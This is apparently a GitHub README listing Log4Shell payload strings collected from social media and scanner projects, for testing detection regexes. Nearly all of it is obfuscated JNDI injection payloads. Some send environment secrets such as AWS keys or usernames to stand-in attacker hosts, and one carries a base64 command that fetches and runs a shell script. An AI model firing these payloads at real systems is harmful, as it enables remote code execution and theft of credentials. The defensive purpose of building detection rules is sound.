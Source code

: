 # Payload samples

This is a list of [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) payloads seen on my twitter feeds.

The goal is to allows testing detection regexes defined in protection systems.

## Sources & credits

* https://twitter.com/h4x0r_dz/status/1469663187079417857/photo/1
* https://twitter.com/ymzkei5/status/1469765165348704256
* https://twitter.com/sirifu4k1/status/1469524530255511552
* https://twitter.com/BountyOverflow/status/1470001858873802754
* https://twitter.com/entropyqueen_/status/1469961345848299520
* https://twitter.com/anthrax0/status/1470276303773663233
* https://twitter.com/log4j2rce/status/1469799982630944770
* https://twitter.com/11xuxx/status/1471236310299906050
* https://twitter.com/11xuxx/status/1471826191724257285
* https://twitter.com/arezthehopebust/status/1472252553626742785
* https://github.com/projectdiscovery/nuclei-templates/pull/3334/files
* https://github.com/PortSwigger/log4shell-scanner/blob/master/src/main/kotlin/burp/BurpExtender.kt#L70
* https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words/blob/main/src/main/java/log4j.java
* https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/src/main/java/burp/BurpExtender.java#L84
* https://github.com/fullhunt/log4j-scan/blob/master/log4j-scan.py#L52
* https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py#L9
* https://docs.google.com/document/d/15V4EmDcOl4Mog5-If-Mv3-ZoRcf9-RsGSWlqYte3zho/edit
* https://www.cyberkendra.com/2021/12/log4shell-advisory-resource-cheat-sheet.html
* https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html

## Value collections

* https://github.com/Neo23x0/log4shell-detector/tree/main/tests/test-cases
* https://github.com/whwlsfb/Log4j2Scan/tree/master/src/main/java/burp/poc/impl

## Values gathered

> When a source was not an image then values provided were added to the list below.

💡 Note that `:/` instead of `://` is effective too.

```text
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://1234.${hostName}.com}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}},
${${::-j}nd${::-i}:
${${::-j}ndi:
${${::-j}ndi:dns://${env:USERNAME}.c6roi3ia89k5kj1mes60cg5a1doyyyyyn.interactsh.com}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://{{callback_host}}/{{random}}},
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host/{{random}}},
${${lower:jndi}:${lower:rmi}://dslepf.dnslog.cn/tem}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:jndi}:${lower:rmi}://{{callback_Host}}/{{random}}},
${${lower:jnd}${lower:${upper:ı}}:ldap://...}
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://xxx
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}},
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dslepf.dnslog.cn/tem}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}},
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${upper:p}://somesitehackerofhell.com/z}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://1234.${hostName}.com}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed }
${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${jndi:${lower:l}${lower:d}a${lower:p}://example.com/
${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}
${jndi:dns://${env:COMPUTERNAME}.uedo81.dnslog.cn/a}
${jndi:dns://${env:USERDOMAIN}.qnfw43.dnslog.cn/a}
${jndi:dns://${hostName}.uedo81.dnslog.cn/a}
${jndi:dns://aeutbj.example.com/ext}
${jndi:dns://{{callback_host}}}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.badserver.com} 
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${env:USER}.attacker.server/}
${jndi:ldap://${env:user}.uedo81.dnslog.cn/exp}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://45.155.205[.]233[:]12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC9bdmljdGltIElQXTpbdmljdGltIHBvcnRdfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0L1t2aWN0aW0gSVBdOlt2aWN0aW0gcG9ydF0pfGJhc2gK}
${jndi:ldap://dslepf.dnslog.cn/exp}
${jndi:ldap://somesitehackerofhell.com/z}
${jndi:rmi://a.b.c}
${jndi:rmi://{{callback_host}}},
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${k8s:k5:-ND}i${sd:k5:-:}
j${loWer:Nd}i${uPper::}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
jn${date:}di${date:':'}
jn${env::-}di:
${jnd${123%25ff:-${123%25ff:-i:}}ldap://mydogsbutt.com:1389/o}
127.0.0.1/${jndi:ldap://3y2i0ndknzu3ggcfrukjvhviy945su.burpcollaborator.net/${java:version}}
```
